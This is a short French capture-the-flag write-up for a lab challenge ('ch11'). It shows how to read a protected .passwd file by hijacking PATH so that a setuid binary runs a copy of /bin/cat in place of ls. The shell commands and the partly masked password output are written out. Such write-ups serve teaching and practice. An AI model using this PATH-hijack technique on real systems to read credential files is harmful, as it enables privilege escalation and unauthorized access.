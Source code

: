 # Bash

En listant le répertoire avec la commande `ls` on remarque qu’on possède l’attribute `s` sur l’exécutable `ch11`.
Ce qui veut dire qu’on le lance avec les droits de l’owner, qui est `app-script-ch11-cracked`, soit le même owner que le fichier `.passwd`.
```
prompt:~$ ls -la
total 24
dr-xr-x---  2 app-script-ch11-cracked app-script-ch11         4096 Aug 11  2015 .
drwxr-xr-x 14 root                    root                    4096 Nov 17 21:47 ..
-r--r-----  1 app-script-ch11-cracked app-script-ch11-cracked   14 Feb  8  2012 .passwd
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11         7160 Aug 11  2015 ch11
-r--r-----  1 app-script-ch11         app-script-ch11          153 Aug 11  2015 ch11.c
```
Afin d’exécuter `cat` à la place de `ls` il suffit de copier l’exécutable dans `/tmp`
app-script-ch11@challenge02:~$ cp /bin/cat /tmp/ls

puis de changer la valeur de la variable d’environnement `PATH`
```
app-script-ch11@challenge02:~$ PATH=/tmp
app-script-ch11@challenge02:~$ echo $PATH
/tmp
```
Donc lorsque on exécutera une nouvelle fois le fichier `ch11` il lancera le programme `/tmp/ls` qui est une copie de `/bin/cat` et affichera donc le mot de passe !
```
prompt:~$ ./ch11
!oPe[..........]5
```
